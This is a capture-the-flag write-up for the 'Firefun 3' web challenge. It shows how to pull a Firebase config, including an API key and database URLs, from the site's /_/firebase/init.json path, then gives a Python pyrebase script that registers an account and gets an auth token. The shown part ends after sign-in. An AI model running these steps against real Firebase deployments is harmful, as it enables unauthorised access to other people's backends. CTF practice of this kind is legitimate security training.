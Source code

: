 <h1>Firefun 3 ~ Web</h1>
<h2>Description and Analysis</h2>
<blockquote>
Our fireplace company was all set to take off for the moon, then we had to shut it all down. All that's left is a simple landing page.

-ProfNinja

Dedicated to Nisala

https://fire.prof.ninja/
</blockquote>

<p>
In this challenge we were given only a landing page with fire as a reference to Firebase, later on I figured out this is similar challange from the last year or from last CTF :shrug:<br>
Actually this (https://squ1rrel.dev/squ1rrel-personal-website) since this was dedicated to that person.

<h2>Solution</h2>

We dump the the config from path `/_/firebase/init.json`

```json
{
    "apiKey": "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
    "authDomain": "udctf24.firebaseapp.com",
    "databaseURL": "https://udctf24-default-rtdb.firebaseio.com",
    "projectId": "udctf24",
    "messagingSenderId": "926833250426",
    "storageBucket": "udctf24.firebasestorage.app"
}

```

One way of authentication is via email and password so we can create account and sign in for test

```python3
import pyrebase

# Firebase config that we dumped
config = {
    "apiKey": "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
    "authDomain": "udctf24.firebaseapp.com",
    "databaseURL": "https://udctf24-default-rtdb.firebaseio.com",
    "projectId": "udctf24",
    "messagingSenderId": "926833250426",
    "storageBucket": "udctf24.firebasestorage.app"
}

firebase = pyrebase.initialize_app(config)
auth = firebase.auth()

email = "test@test.com" # just a placeholder, add yours
password = "newpassword123" 
new_user = auth.create_user_with_email_and_password(email, password)
print("New User ID:", new_user['localId'])


user = auth.sign_in_with_email_and_password(email, password)
id_token = user['idToken']
print("Signed in, token: ", id_token)
```
